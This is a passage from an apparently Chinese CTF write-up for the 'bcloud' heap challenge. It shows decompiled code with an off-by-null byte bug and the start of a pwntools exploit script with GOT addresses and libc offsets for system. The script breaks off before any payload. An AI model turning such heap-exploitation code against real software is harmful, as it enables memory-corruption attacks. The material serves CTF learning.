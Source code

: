 另外自己定义的read函数里面有off by null漏洞(但是malloc的时候加了4)

```
int __cdecl sub_804868D(int a1, int a2, char a3)
{
  char buf; // [esp+1Bh] [ebp-Dh]
  int i; // [esp+1Ch] [ebp-Ch]

  for ( i = 0; i < a2; ++i )
  {
    if ( read(0, &buf, 1u) <= 0 )
      exit(-1);
    if ( buf == a3 )
      break;
    *(_BYTE *)(a1 + i) = buf;
  }
  *(_BYTE *)(i + a1) = 0;                       // offbynullbyte
  return i;
}
```

详细脚本如下：

```
#!/usr/bin/env python

from pwn import *

#context.log_level = "debug"

elf = "./bcloud"

note_array = 0x804b120 # chunk_list
note_len_array = 0x804b0a0 # size_list
puts_plt = 0x8048520
atoi_got = 0x804b03c
free_got = 0x804b014
atoi_off = 0x2d250
system_off = 0x3ada0

p = process(elf)

def new(size, content):
    p.recvuntil("option--->>\n")
    p.sendline("1")
    p.recvline("Input the length of the note content:")
    p.sendline(str(size))
    p.recvline("Input the content:")
    p.sendline(content)

def edit(idx, content):
    p.recvuntil("option--->>\n")
    p.sendline("3")
    p.recvline("Input the id:")
    p.sendline(str(idx))
    p.recvline("Input the new content:")
    p.send(content)

def delete(idx):
    p.recvuntil("option--->>\n")
    p.sendline("4")
    p.recvuntil("Input the id:\n")
    p.sendline(str(idx))

'''
```